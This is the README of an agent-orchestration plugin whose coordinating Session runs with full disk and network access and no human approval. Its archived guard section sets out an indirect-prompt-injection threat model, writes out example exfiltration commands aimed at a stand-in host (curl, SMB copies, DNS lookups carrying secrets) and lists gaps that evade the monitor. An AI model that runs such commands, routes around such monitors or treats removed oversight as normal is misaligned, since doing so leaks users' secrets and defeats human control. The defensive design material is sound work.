

# dsh-plugin-shadow

> When you have more DSH conversations than you can track, let one of them stand in your seat: watching progress and handing work to the right Session.

**Repository**: [RD2100/rd-shadow](https://github.com/RD2100/rd-shadow) — **Package**: `dsh-plugin-shadow` (the repository and the package are named differently; install by package name)

*[中文说明](README.md)*

The shadow is a separate DSH Session living in its own directory. It has three abilities:

1. **See** all your workspaces and Sessions (who is busy, who is asleep, what is archived);
2. **Read** any Session's state and recent events;
3. **Dispatch** — deliver a message to a chosen Session and return audit-ready delivery evidence.

It does not reimplement the old workbench's ledger, memory, or subscription pools. It uses the official Session and permission services, so **every action can be reconstructed from the Session log**. Interactive approval is disabled in the current configuration.

---

## Status

| Capability | State |
|---|---|
| Sidebar entry / candidate list / create / archive | ✅ working |
| Permission identity (Sessions in the shadow directory are pinned to `danger-full-access`) | ✅ verified |
| Interactive approval prompts | Disabled; shadow tools do not register an approval hook |
| `shadow_targets` / `shadow_inspect` / `shadow_dispatch` | ✅ verified (including a real delivery and result read-back) |

Version `0.10.0` provides shadow Session coordination and dispatch. Shadow permissions are fixed to `danger-full-access`, and tool calls do not wait for human approval.

---

## Requirements

| Item | Requirement |
|---|---|
| DSH | `dsh-desktop-next 2.0.20-next` (harness `0.2.1-rc.3`). This plugin depends on that build's internal services and tool-registration contract and is **not guaranteed across versions** |
| Node | `>= 22.19` |
| Reviewer plugin | Not required; the shadow does not use auto-review and runs as `danger-full-access` |
| Profile | A GUI-capable web or desktop profile (this plugin has a browser half) |

---

## Install

### Desktop profile

The desktop profile **cannot** be managed by the `dsh plugin` CLI (DSH reserves it for the Electron application). Use the in-app plugin manager, or have an agent call `plugin_manager`'s `install_bundle`:

```
install_bundle  spec = https://github.com/RD2100/rd-shadow
```

The manager also accepts npm package names, tarball URLs, and absolute local paths.

### web / tui profile

```sh
dsh plugin --profile web add <npm name | git url | absolute path>
```

### Manual (any profile)

Both halves are needed in the profile's `package.json`:

```jsonc
{
  "dsh": { "profile": { "bundles": ["dsh-plugin-shadow"] } },
  "dependencies": { "dsh-plugin-shadow": "file:D:/path/to/shadow-plugin" }
}
```

---

## First configuration

The relevant rows in `cordis.patch.yml` are:

```yaml
- insert:
    - id: preset-shadow
      name: '@deepseek-ai/dsh-agent-preset'
      config:
        id: shadow
        plugins:
          # Agent-scoped row; other preset plugins omitted here.
          - id: shadow-tools
            name: 'dsh-plugin-shadow/tools'
            config:
              shadowDir: '~/dsh-shadow'  # must match the host row
    - id: shadow
      name: 'dsh-plugin-shadow'
      config:
        shadowPresetId: shadow        # the agent preset that marks a Session as the shadow
        shadowDir: '~/dsh-shadow'     # the shadow's own directory ('~' expands to your home)
```

- `shadowDir` **is** the shadow's identity: only Sessions living there get pinned to `danger-full-access` and treated as the shadow.
- The `shadow-tools` row must use the same `shadowDir`; it registers the three tools only in the shadow preset.
- If you omit `shadowDir`, the host side falls back to `<home>/dsh-shadow`; **the browser half requires an explicit value**, so please write the line.
- First use creates that directory's workspace; using it again reuses it instead of registering a duplicate.
- The current shadow row always pins `danger-full-access`; it does not offer an `auto` or manual-preservation mode.
- The tools entry has no egress approval hook. Legacy `egressAllowlist`, `protectedPaths`, `canaryValues`, and related settings cannot block or delay tool calls.

---

## Architecture



Three things worth remembering:

1. **Capability follows the preset**: the three tools are registered only in the `shadow` preset's agent scope; other Sessions never see them.
2. **Identity follows the directory**: only Sessions inside `shadowDir` are pinned to `danger-full-access` and treated as the shadow.
3. **Tool calls do not trigger interactive approval prompts**; the tools entry registers no approval hook.
4. **Delivery is auditable**: the message carries `source={kind:'agent-message'}`, so the receiver's log reconstructs who dispatched it; the receipt's `inbox@seq`/`user@seq` point at exact events in that log.

---

## The three tools (model-visible)

| Tool | Purpose |
|---|---|
| `shadow_targets` | List workspaces and Sessions: id, live state (`idle`/`cold`/`busy`), archived and subagent markers, titles |
| `shadow_inspect` | Read one Session without activating it: state, directory, current model, sequence number; optional paged events (`afterSeq`/`limit`) whose header tells you how many remain and where the end is |
| `shadow_dispatch` | Deliver one message to a Session. The message carries `source={kind:'agent-message', form:'relay', senderSessionId}`, so **the receiver's log proves who dispatched it** |

Delivery is idempotent: replaying the same tool call (crash recovery, host retry) yields the same message id and never delivers twice. **To send again, call again** — that is a new message, not a duplicate.

Receipt `status`:

| Value | Meaning |
|---|---|
| `durable` | Written to the target log and admitted into a turn (`user/message` exists) |
| `accepted` | In the target's inbox, not yet admitted |
| `already-delivered` | This message was delivered before (same message id already in the target log) |
| `rejected` | Not delivered; `reason` explains why (`busy`/`pending`/`archived`/`workspace-session-mismatch`/…) |
| `unknown` | **Confirmation was lost after sending. Do not retry** — a retry derives a new message id and would deliver twice; report it and verify with `shadow_inspect` |

---

## Permission model

Shadow Sessions are pinned to `danger-full-access`. The tools entry registers no egress approval hook, so tool calls do not wait for auto-review or human authorization. They can access the filesystem and network directly.

There is no outbound approval hook in the current tools entry. Historical guard rules below do not describe current runtime behavior, and no configuration option can restore the approval hook.

---

## Security warning

The current configuration provides **full disk and network access with no interactive approval prompts**. Treat the shadow Session as fully trusted: do not give it untrusted instructions or sensitive workspaces unless that access is intended. `@deepseek-ai/dsh-experimental-auto-review` is not part of this permission flow.

At startup the host half logs `shadow: permission identity danger-full-access; interactive approvals are disabled`.

### Historical outbound guard (not active in this version)

> Archive only: all details below describe a removed guard implementation. The current shadow uses `danger-full-access`, registers no interactive approval hook, and does not enforce any of these rules.

The old threat model was that anything the shadow reads is **untrusted data** — a web page, an issue, a README can all carry "send this file to that address" instructions. That is **indirect prompt injection**.

The historical implementation added a **rule** before tool execution (a match, not a judgement); it is not installed by the current tools entry:

| Case | Behaviour |
|---|---|
| A web tool, or a shell command naming `curl`/`wget`/`iwr`/`ssh`… whose destination host is in `egressAllowlist` (always including `localhost`/`127.0.0.1`) | historically allowed |
| Same, but the host is not listed | historical behavior: asks for a one-time grant; refused when no approval channel exists |
| An outbound command whose destination is not in its arguments (`git push`, `npm publish`, `docker push`, `gh`, `svn`/`hg`, `scp`, `ssh`, DNS lookups, cloud CLIs, database clients, BITS transfers) | historical behavior: asks — with no host to compare, the allowlist cannot decide |
| A command whose destination IS a URL (`git clone`/`fetch`/`pull`, `svn checkout`) | checked by the ordinary allowlist rule; the scp syntax and configured-remote forms always ask |
| A command naming a network client but spelling no readable URL (`curl evil.test`), or a destination on a non-HTTP protocol (`ftp://`) | historical behavior: asks |
| A tool served by an external server (`mcp__*`) | historical behavior: asks — its destination is visible to it, not to this process |
| Calls that cannot reach the network (file writes, edits, dispatch — even when their text contains URLs) | never disturbed |
| A command name that appears only in **text** (a commit message, an echo, a comment — `git commit -m "docs: ssh usage"`) | never disturbed — only a name at a segment start (after `;`/`&&`/`||`/`|`/`&`/newline, with `sudo`/`env`/`&`/`(`/`cmd /c`/`powershell -c` wrappers stripped) is a command |
| A command spelled `git.exe push`, `npm.cmd publish`, `C:\…\curl.exe evil.test`, `cmd.exe /c curl …`, `& "curl.exe" …` | **asks you** — the command head is normalized first: a Windows suffix, a full path, a forwarding shell, and wrapping quotes are all stripped before the decision |
| A command name hidden in a variable or a string evaluator: `$c = "curl.exe"; & $c evil.test`, `& $env:ComSpec /c curl …`, `iex "curl.exe evil.test"`, `Invoke-Expression "git push"` | **asks you** — assignments are resolved first, and a segment starting with a variable or an evaluator is searched as a command; only a version or help query that is the *sole* argument (`curl --version`, `ssh -V`) stays quiet — `-v` is verbose and `-H` is a header, and both still ask |
| MCP tools and MCP resource reads (`mcp__srv__tool`, `read_mcp_resource`, `list_mcp_resources`) | **asks you** — the server runs outside this process, so the arguments carry no destination to check |
| A command hidden inside `$(...)`, backticks, `{ … }`, or a subshell (`echo $(curl https://evil.test)`, `if ($true) { curl … }`) | **asks you** — these are spans the shell really executes, so they are analysed as commands |
| A URL inside a data-only command's arguments (`git commit -m "see https://evil.test"`, `echo`, `Write-Output`, build tools) | never disturbed — that is prose, not a destination |
| An argument naming a share on another machine (`copy secret.txt \\evil.test\share\`, a file tool writing `\\host\share\`, `//host/share/`) | **asks you** — an SMB transfer looks like a local write. Reads ask too: another machine's content coming in is the same trust question `web_fetch` asks. The allowlist answers it exactly as it answers a URL (and does not apply while tainted), so an internal file server never becomes a prompt that cannot be silenced; local shares and `\\?\C:\…` long paths are unaffected |
| A DNS name lookup (`ping secret.evil.test`, `tracert`, `pathping`, `Test-Connection`, `Test-NetConnection`/`tnc`, `host`, `drill`, `nslookup`, `dig`, `Resolve-DnsName`) | **asks you** — the name itself leaves in the DNS query even when no connection follows. Judged by the name: an allowlisted host stays quiet, and an address literal (`ping 8.8.8.8`) needs no query, so it carries no data and stays quiet |
| `npm run release` / `make deploy` | judged by the **script body**: when `package.json`/`Makefile` can be read, the commands inside the body decide (two levels at most, cycle-safe); unreadable or unknown directory means the call is judged exactly as before — an unknown script is not a new prompt |
| `curl https://ok.test/ evil.test` | **asks you** — the clients take more than one URL, and the second destination needs no scheme, so the allowlisted one must not excuse the other. A value-taking flag's value (`-o`/`-H`/`-d`…) is metadata, not a destination |
| Substitutions nested deeper than the scanner follows (`echo $($($(… curl host …)))`) | **asks you** — any finite depth can be stepped over by nesting once more, so the honest answer to "this text was not read" is a question, not a pass |

The point: **it checks the destination, not the payload**. Base64, splitting or re-encoding the content cannot change where a request goes, so this rule cannot be bypassed; a content regex can, which is why there is no content scan.

**Scope in opt-in guard mode**: the guard applies only to **shadow Sessions** — it is registered inside the `preset-shadow` agent preset's scope (see `cordis.patch.yml`), so your own sessions are untouched. The headless runner does not compose this preset by default (see `E2E-GUARD.md`).

In the old implementation, the default allowlist was empty, so every outbound request asked. This behavior is archived and is not part of the current tools entry.

### Reading protected data disables the allowlist

The better question is not "does this content look sensitive" but **"what did this Session just read"**. `protectedPaths` lists file names or path fragments (by default `.credentials`, `.env`, `id_rsa`, `id_ed25519`, `.pem`, `.pfx`, `secrets`).

- A tool call that **mentions** one of them — reads it, lists its directory, names it in a command — marks that Session;
- While marked, **every outbound request asks**, even to an allowlisted host;
- **Dispatch carries the mark**: when the sender is marked, or the message itself names a protected path, the target Session takes the mark. Otherwise "A reads `.env`, A dispatches to B, B sends the content out" is the one path out that asks nobody — a dispatch is a local call and is judged as one, while B's own mark is empty;
- The mark **lasts for the rest of the Session by default** (`taintScope: 'session'`): the data is still in the model's context, and a turn boundary does not un-read it, so the "read `.env` this turn, send the key as a search query next turn" path stays closed. Set `taintScope: 'turn'` if the prompts get in the way — that trades the between-turn window for the quiet.

Why this beats a content filter: **what it read is knowable** (the path is in the arguments), while **what counts as sensitive is not** (the same string is a key in a config file and an example in a doc). The mark never inspects what you send — it looks at what was touched earlier — so base64 or splitting the payload cannot dodge it.

In opt-in guard mode, ordinary work is "never touched a secret → allowlisted hosts stay quiet; touched one → everything asks from then on". That includes **a normal web fetch or search after reading `.env`**, for the rest of the Session (or until `taintScope` is set to `turn`).

### Two sharper tools: canary values and approval memory

The rule above is deliberately *broad* — it suspects everything after a filename was touched. Two features narrow it where it matters:

**Canary values (`canaryValues`)** — plant a **fake** credential in `.env` (one that works nowhere and that only you know about) and list it:

```yaml
    canaryValues:
      - 'AKIAFAKEFAKEFAKE'      # the fake AWS key sitting in .env
      - 'ghp_fakefakefakefake'  # the fake GitHub token sitting in .env
```

After that, any outbound call whose arguments carry one of those strings asks — no taint needed, no allowlist involved. Why this one is allowed to look at content while the others are not: **the string is unique, fake, and has no legitimate use**, so it has exactly one meaning at the exit. A generic secret pattern has to guess, and a guess wrong in either direction is how a guard gets switched off. The prompt says which canary matched and **never echoes the value** — neither the prompt nor the log should carry the secret it is protecting.

Its boundary, stated plainly: **a canary only sees the value when it is written into the arguments**. In `curl -d "$(cat .env)"` the key is read from the file at runtime and never appears in the arguments, so the canary cannot see it — but `.env` was named, so the taint still asks. The two mechanisms are complementary, not interchangeable.

**Approval memory (`approvalMemory`)** — a call that is *identical* (same tool, same arguments) and was just approved does not ask again. `turn` (default) = for the rest of the turn; `session` = for the rest of the Session; `off` = every time. Why only identical: a different URL, a different query, or a different command is a **different call**, and the difference is exactly where a payload hides. So this fixes "the same question asked twice" (polling, retries, loops) and does nothing for "every search query is different" — that is what the canary is for.

**Recommended combination**: once a canary is planted, set `taintScope` back to `turn`. The path that actually matters (the real key leaving) is now watched precisely, with almost no false positives; the broad path-triggered mark only has to catch "sensitive data we cannot name", and a one-turn window keeps the prompts down.

**Indirection across calls (`statefulShell`)**: a name taught to the shell in an *earlier* call and used in a later one — `Set-Alias x curl`, then `x evil.test`. Self-definition inside a single command line (`$c = "curl"; & $c …`, `function x { & curl @args }; x …`) is judged as the call it makes; the cross-call kind only exists when the shell really keeps its state. The default is `false`: the shipped preset uses a fresh-process shell, which remembers nothing between calls, so remembering would manufacture a prompt about a command that does not exist. Set it to `true` **only when the deployment runs a persistent shell** (`pwsh_persistent`, a terminal Session) — that is a claim about the deployment, and it is the operator's to make. Each Session remembers at most 200 names.

**What this does not cover**: DNS queries a *program* makes on its own (a name written on the command line is judged by the name; a name resolved inside a binary is not in the arguments), writing into a local synced folder another process uploads (a `\\host\share\` path is itself a destination and is covered), **redirects** (an allowlisted host 302-ing elsewhere — the guard only sees the initial URL), **indirection across calls** (a name defined in one call and used in a later one is remembered only with `statefulShell: true`; an `npm run`/`make` script body is judged by its body when the manifest is readable, and exactly as before when it is not), an interpreter sending without a URL (`python -c "os.system('ssh host')"` — neither the destination nor the client name sits where the guard reads), URL spellings the guard cannot recognise, and tools served by an external server that carries no destination in its arguments (`mcp__*` — those always ask, but the question is "use this tool at all", not "send it where"). It is a speed bump, not a proof.

---

## Known limitations

| Limitation | Detail |
|---|---|
| **No interactive approval prompts** | The shadow has `danger-full-access`; tool calls are not stopped for human approval |
| GUI profiles only | The client half needs a browser environment |
| Windows-oriented defaults | The default is cross-platform, but a hard-coded Windows `shadowDir` needs editing when you switch platforms |
| No cross-version compatibility work | See [Requirements](#requirements) |

---

## Development and testing

```sh
npm test                        # all offline checks (core + preflight + sim + patch + package self-sufficiency)
npm run pack:check              # published artifact only: files coverage, entry points, runs from a copy
node tests/run.mjs --deployed   # additionally verify the installed copy (needs SHADOW_PROFILE_TOOLS)
npm run sync -- --profile <profile dir>   # copy into the profile and verify in one step
npm run fingerprint             # print this checkout's code hash, compare it with the host log's build line
npm run judge                   # delegate restart and verify to dsh-plugin-restart
```

Shortest loop after changing `lib/*.js`: `npm test` → sync and verify the desktop profile → commit both plugin repositories → run `npm run judge` from `restart-plugin` as the final action.
`npm run judge` delegates restart, ledger, and resume-queue ownership to the separate `dsh-plugin-restart` checkout. Its ledger and queue state live under `<DSH_HOME>/.restart/`. Commit both repositories before the final judge run.

| Suite | Covers |
|---|---|
| `tests/shadow-dir.test.mjs` | The single owner of the directory rule: portable default, `~` expansion, normalized comparison |
| `tests/host-preflight.test.mjs` | Host half: startup preflight (missing services named, version readable, preflight failure cannot break the plugin) and pinning shadow Sessions to `danger-full-access` |
| `tests/client.test.mjs` | Browser half: the real bundle loaded in a sandbox verifies the loader id, the exported `inject`, the sidebar slot registration, both dictionaries, and drives `createShadow` through every result shape — including the "workspace already exists" regression |
| `tests/dispatch-core.test.mjs` | Pure dispatch logic plus historical outbound-classifier unit coverage; the classifier is not connected to runtime tools |
| `tests/tools-sim.mjs` | The real `lib/tools.js` against a fake host: registration, caller binding, delivery, idempotency, rejection codes, per-target serialization, and successful dispatch with legacy approval config and no approval request |
| `tests/patch.check.mjs` | Parses `cordis.patch.yml` (including `!!js`) and asserts the shadow rows are intact; needs `js-yaml` (installed via `npm install`, or point `JS_YAML` at it) |
| `tests/build-stamp.test.mjs` | The shadow build stamp's contract: the hash follows the bytes, and unreadable files report null instead of breaking the mount |
| Restart validation | Judge, worker, ledger, and resume-queue checks live in the separate `dsh-plugin-restart` repository |
| `scripts/pack-check.mjs` | The published artifact: every `lib/*.js` included, entry points exist, runtime imports stay inside the shipped set, a copy of only those files still passes the tools suite |

The simulator uses `tests/dsh-tools-stub.mjs` to reproduce the official author-schema validation — a tool definition that would throw at the real registration site throws here too.

**Startup preflight**: the host half checks that `agents` / `llm` / `sessionController` / `sessionQuery` / `sessions` / `tools` / `workspaceRegistry` are all present, names whichever is missing, and states the expected runtime version — so a version mismatch surfaces as one actionable line instead of "the shadow Session will not start".

### How changes take effect (a trap we hit)

- DSH's HMR **watches the profile configuration but not the plugin's `lib/*.js`**. After copying code into the profile, a running instance will **not** load it; a restart is required.
- Worse: editing `cordis.patch.yml` triggers a config reload that **re-imports `lib/index.js` while possibly reusing cached sibling modules**. If the two files disagree at that moment the plugin fails to load:

  ```
  SyntaxError: The requested module './shadow-dir.js' does not provide an export named 'expandShadowDir'
  shadow (dsh-plugin-shadow): failed to import … 1 entry did not activate
  ```

  The files on disk are actually consistent; only HMR's module graph is stale. **A restart always recovers.** Symptom check: the log shows `did not activate`, and no later `shadow:` lines appear.

  After a successful restart the log carries exactly these three lines, and they are worth their weight when diagnosing:

  ```
  shadow: directory /home/you/dsh-shadow   ← effective directory (is the config right?)
  shadow: build <12 hex chars>             ← these are the bytes I loaded
  shadow: permission identity danger-full-access; interactive approvals are disabled
  ```

  The middle line is the **build stamp**: the host reporting the content hash of the `lib/*.js` it loaded. Compare it with `npm run fingerprint` after a restart — equal means the new code really is in place. It is harder evidence than file timestamps, because a copy edited afterwards, displaced by another copy, or half-synced all change the hash. If you would rather not run a probe at all, this line is the whole answer to "did my change take effect?".

- So a sync must end with a deployed check. `npm run sync` does the whole thing (enumerates `lib/*.js` from disk, copies, then runs `--deployed`, so a half-finished copy fails immediately):

  ```sh
  npm run sync -- --profile <your profile directory>
  ```

  Manual equivalent:

  ```sh
  SHADOW_PROFILE_TOOLS=<profile>/node_modules/dsh-plugin-shadow/lib/tools.js \
    node tests/run.mjs --deployed
  ```

### Restart and resume

The independent `dsh-plugin-restart` repository owns the restart judge, worker, ledger, and resume queue. It verifies deployed bytes against a commit and stores state under `<DSH_HOME>/.restart/`. Its worker waits for quiet host logs before restarting, but other tasks may still be interrupted; run the real `npm run judge` only as the final action of a conversation. See the restart repository's README for the full workflow.

The shadow plugin no longer includes the guard's live-reload path. `dispatch-core.js` retains pure classifier unit coverage, but does not affect tool execution.

### Layout

```
lib/index.js         host half: pins danger-full-access for Sessions in the shadow directory
lib/tools.js         registration and effects for the three model-visible tools
lib/dispatch-core.js pure dispatch logic plus historical classifier tests
lib/shadow-dir.js    the single owner of the shadow-directory rule
lib/build-stamp.js   build stamp reported at mount
lib/client.js        browser half: sidebar entry and panel
cordis.patch.yml     preset + three plugin rows
scripts/             sync and fingerprint commands; `judge.mjs` delegates to dsh-plugin-restart
tests/               offline verification assets
DESIGN.md            design (historical permission details noted at the top) — Chinese
DISPATCH-SPEC.md     implementation spec (historical permission details noted at the top) — Chinese
```

---

## Before publishing (maintainers)

- [x] `repository` / `homepage` / `bugs` point at [RD2100/rd-shadow](https://github.com/RD2100/rd-shadow)
- [ ] Screenshots in the README
- [ ] Decide whether to publish to npm (otherwise installs come from git or a local path)
- [x] English README
- [x] CI running at least `npm test` (`.github/workflows/test.yml`, ubuntu/windows × node 22/24)
- [ ] Translate the design docs (currently Chinese only)
- [x] Historical egress-guard verification archived in [E2E-GUARD.md](E2E-GUARD.md); it is not a guide to current runtime behavior

### Publishing to npm

Pre-flight (checked 2026-10-29): the name `dsh-plugin-shadow` is free on npm; `npm pack --dry-run`
produces 16 files / 135 kB tarball (`lib` + patch + LICENSE + every doc); `npm run pack:check` passes;
CI is green; the `v0.5.0` tag is pushed.

```sh
npm whoami                 # ENEEDAUTH when not logged in — publishing needs maintainer credentials
npm run pack:check         # artifact self-sufficiency: files coverage, entry points, runs from a copy
npm publish --access public
```

After publishing: `npm view dsh-plugin-shadow version` returns `0.5.0`, and a fresh
`npm install dsh-plugin-shadow` elsewhere can load `lib/tools.js`.

Installing (also works before publishing): `npm install git+https://github.com/RD2100/rd-shadow.git`,
or put the repository path straight into the profile's bundles. For local development use
`npm run sync -- --profile <profile dir>`.

---

## License

MIT, see [LICENSE](LICENSE).
